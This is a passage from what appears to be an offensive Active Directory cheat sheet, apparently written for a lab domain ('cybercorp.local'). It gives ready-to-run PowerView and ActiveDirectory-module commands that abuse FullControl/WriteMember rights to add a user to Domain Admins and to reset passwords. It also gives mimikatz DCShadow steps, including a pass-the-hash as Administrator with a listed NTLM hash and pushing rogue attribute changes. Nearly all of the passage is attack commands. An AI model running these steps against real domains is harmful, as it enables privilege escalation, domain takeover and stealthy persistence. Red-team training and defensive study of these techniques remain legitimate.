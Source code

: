 5. Once you have the requested permissions on desired objects, it is possible to abuse FullControl/WriteMember (running as the user previousely added) to add new users to the Domain Admins group:
    
    ```powershell
    # PowerView_dev
    Add-DomainGroupMember -Identity "Domain Admins" -Members "TESTDA" -Verbose
    
    # ActiveDirectory Module
    Add-ADGroupMember -Identity "Domain Admins" -Members "TESTDA"
    ```
    
    or perform ResetPassword (running as the user previousely added):
    
    ```powershell
    # PowerView_dev
    Set-DomainUserPassword -Identity "TESTDA" -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText Force -Force) -Verbose
    
    # ActiveDirectory Module
    Set-ADAccountPassword -Identity "TESTDA" -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText Force -Force) -Verbose
    ```
    

## DCShadow

1. Start a mimikatz session as SYSTEM and run the below commands to modify an attribute (in this case the SPN is set to “Replication/DC”:
    
    ```
    :: mimikatz.exe
    mimikatz # lsadump::dcshadow /object:STUDENT2 /attribute:servicePrincipalName /value:"Replication/DC"
    ```
    
2. Then from mimikatz impersonate a Domain Admin and push the attributes:
    
    ```
    :: mimikatz.exe
    mimikatz # privilege::debug
    mimikatz # token::elevate
    mimikatz # sekurlsa::pth /user:Administrator /domain:cybercorp.local /ntlm:78603c228a04497e15e870688ea2e02d /impersonate
    mimikatz # lsadump::dcshadow /push
    ```
    
    If we would like to do the above without using DA, the only thing that changes is the “push”. Instead of running mimikatz as DA to push the attributes, we can use SetDCShadowPermissions to provide minimal rights to a user (STUDENT1) in order to change attributes to another user (STUDENT2). Keep in mind that, for once, we will still need to have DA privileges.
    